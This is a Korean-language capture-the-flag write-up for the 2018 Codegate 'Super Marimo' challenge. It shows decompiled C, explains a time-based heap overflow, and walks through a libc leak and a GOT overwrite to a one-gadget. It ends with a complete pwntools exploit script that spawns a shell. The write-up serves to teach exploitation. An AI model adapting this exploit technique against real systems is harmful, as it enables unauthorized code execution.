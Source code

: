 ```yaml
---
title: "2018 Codegate Super Marimo"
date: 2019-12-23
tags: [Codegate]
categories: [Pwn]
published: false
---
```


64bit heap overflow 문제다. 변수랑 함수 이름은 내가 수정해놨다.

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

이 프로그램에서 hidden function이 존재했다. 

```c
signed __int64 __fastcall vuln(const char *a1)
{
  void *v1; // ST18_8

  if ( strcmp(a1, "show me the marimo") )
    return 0LL;
  v1 = malloc(24uLL);
  sub_400EED(v1, 1u, 5u);
  Marimo[Marimo_cnt++] = v1;
  return 1LL;
}
```

여기서 보면 show me the marimo라는 글자랑 같으면 Marimo를 생성해줄 수 있다.

또 다른 곳에서 만들 수 있긴한데 돈이 필요하다고 떠서 그냥 호출하는 함수는 똑같다.

```c
_BYTE *__fastcall sub_400EED(struct marimo *a1, unsigned int a2, unsigned int a3)
{
  unsigned __int64 v3; // ST00_8
  int v4; // ST04_4

  v3 = __PAIR__(a2, a3);
  *&a1->birth = time(0LL);
  *&a1[1].name = a2;
  *&a1[2].profile = malloc(16uLL);
  puts("What's your new marimo's name? (0x10)");
  printf(">> ", v3);
  fflush(stdout);
  __isoc99_scanf("%16s", *&a1[2].profile);
  *&a1[5].name = malloc(32 * v4);
  printf("write %s's profile. (0x%X)\n", *&a1[2].profile, (32 * v4));
  fflush(stdout);
  printf(">> ");
  fflush(stdout);
  return sub_400FF9(*&a1[5].name, 32 * v4);
}
```

이런식으로 구조체 변수에 넣어서 Marimo를 만들어준다.

보기 쉽게 구조체는 이런식으로 만들어줬다. 

![](https://user-images.githubusercontent.com/32904385/71411403-7fd27f80-268c-11ea-9293-9caee4bc6f31.png)

취약점은 여기서 터진다.

```c
unsigned __int64 __fastcall Modify(struct marimo *a1)
{
  unsigned int v1; // ST18_4
  unsigned int v3; // [rsp+1Ch] [rbp-24h]
  char v4; // [rsp+20h] [rbp-20h]
  unsigned __int64 v5; // [rsp+38h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts(&byte_4014F4);
  printf("birth : %d\n", *&a1->birth);
  v1 = time(0LL);
  printf("current time : %d\n", v1);
  v3 = v1 + *&a1[1].name - *&a1->birth;
  printf("size : %d\n", v3);
  printf("price : %d\n", 5 * v3);
  printf("name : %s\n", *&a1[2].profile);
  printf("profile : %s\n", *&a1[5].name);
  puts(&byte_4014F4);
  puts("[M]odify / [B]ack ?");
  printf(">> ");
  fflush(stdout);
  __isoc99_scanf("%19s", &v4);
  if ( v4 == 'M' )
  {
    puts("Give me new profile");

    printf(">> ", &v4);
    fflush(stdout);
    sub_400FF9(*&a1[5].name, 32 * v3);          // vuln
    Modify(a1);
  }
  return __readfsqword(0x28u) ^ v5;
}
```

32 * 흐른 시간만큼의 크기로 수정해줄 수 있다. 그래서 여기서 흐른시간을 늘려서 Overflow 일으켜서 함수 포인터를 바꿀 수 있다. 

```
payload : buf[56] + puts_got(profile) + puts_got(name)
```

Marimo를 두개 만들어서 첫 번째 Marimo를 오버플로우나게 해서 puts_got를 Marimo의 name값을 가르키는 포인터에 넣고 view해주면 leak해줄 수 있어서 립씨 베이스를 구할 수 있다.

libc leak해줬으면 oneshot을 이용해서 modify해서 Marimo의 profile을 가르키는 포인터에 oneshot 주소를 구해서 got overwrite 해주면 된다.  `sub_400FF9` 함수에 의해서 개행전까지 입력받을 수 있다.

![](https://user-images.githubusercontent.com/32904385/71410643-6da31200-2689-11ea-856d-14e8dbacef8e.png)

'A'를 40개 입력했을 때 이런식으로 되는데 `0x15e015000` 을 덮지 않고 `0xc5c4c0` 을 바꿔줘야한다. 덮으면 나중에 수정부분에서 입력을 안 받고 프로그램이 꺼진다.

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'
context.arch = 'amd64'
p = process('./marimo')
e = ELF('./marimo')
libc = e.libc

def vuln(name,profile):
	p.sendlineafter('>> ','show me the marimo')
	p.sendlineafter('>> ',name)
	p.sendlineafter('>> ',profile)

def view(index):
	p.sendlineafter('>> ','V')
	p.sendlineafter('>> ',str(index))

def modify(profile):
	p.sendlineafter('>> ','M')
	p.sendlineafter('>> ',profile)
	p.sendlineafter('>> ','B')

vuln('AAAA','BBBB')
vuln('CCCC','DDDD')

sleep(3)
payload = 'A'*48
payload += p64(0x15e015000)
payload += p64(e.got['puts']) # name
payload += p64(e.got['puts']) # profile

view(0)
modify(payload)
#raw_input()
view(1)
p.recvuntil('name : ')
libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('>> ','M')
p.sendlineafter('>> ',p64(libc_base + 0x45216)) # puts overwrite
p.interactive()
```

